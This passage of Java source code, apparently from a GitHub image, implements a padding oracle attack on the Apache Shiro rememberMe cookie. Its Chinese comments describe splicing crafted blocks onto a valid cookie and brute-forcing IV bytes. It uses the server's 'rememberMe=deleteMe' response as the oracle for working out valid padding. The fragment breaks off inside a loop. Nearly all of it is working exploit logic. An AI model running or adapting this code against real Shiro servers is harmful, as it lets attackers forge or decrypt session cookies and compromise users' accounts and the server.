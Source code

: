 ```java
            Header[] headers = response.getAllHeaders();
            if (response.getStatusLine().getStatusCode() == 200) {
                for (Header header : headers) {
                    if (header.getName().equals("Set-Cookie") && header.getValue().contains("rememberMe=deleteMe"))
                        success = false;
                }
            }
        } catch (IOException e) {
            logger.error("Request error when checkPaddingAttackRequest", e);
        } finally {
            if (response != null) response.close();
            httpClient.close();
        }
        return success;
    }

    private boolean serverType(byte[] preBlock, byte[] nextCipherTextBlock) throws IOException {
        // 将当前IV和要翻转攻击的分组拼接到合法cookie尾部
        byte[] tmpBLock1 = Base64.getDecoder().decode(this.loginRememberMe);
        byte[] tmpBlock2 = ArrayUtil.mergerArray(preBlock, nextCipherTextBlock);
        byte[] tmpBlock3 = ArrayUtil.mergerArray(tmpBLock1, tmpBlock2);
        String remeberMe = Base64.getEncoder().encodeToString(tmpBlock3);
        return this.checkPaddingAttackRequest(remeberMe);
    }

    private int identifyType(byte[] tmpIV, byte[] nextCipherTextBlock) throws Exception {
        byte[] preBLock = new byte[this.blockSize];
        Arrays.fill(preBLock, (byte) 0);

        // 爆破IV最后一位，找到合法填充序列
        byte IV;
        for (int c = 0; c < 256; c++) {
            preBLock[this.blockSize-1] = (byte) c;
            if (this.serverType(preBLock,nextCipherTextBlock)) {
                // 记录爆破成功的IV值
                IV = (byte) c;

                byte[] testIv = new byte[this.blockSize];
                Arrays.fill(testIv, (byte) 0);
                testIv[this.blockSize-1] = (byte)(3^IV);
                int count = 0;
                int i=0;
                while (count<2&&i<256){
                    testIv[this.blockSize-2] = (byte) i;
                    i++;
                    if (this.serverType(testIv,nextCipherTextBlock))
                        count++;
                }

                // 根据已经确定的填充序列，返回下一个要爆破的位
                if(count==1) {
                    tmpIV[this.blockSize-1]=(byte)(IV^1);
                    return this.blockSize - 2;
                }
                else if (count==2) {
                    tmpIV[this.blockSize-1]=(byte)(IV^2);
                    tmpIV[this.blockSize-2]=(byte)2;
                    return this.blockSize - 3;
                }else {
                    Arrays.fill(testIv, (byte) 0);
                    for (int j=3;j<=this.blockSize;j++){
                        // 确定是除0x01和0x02外的哪个填充序列
```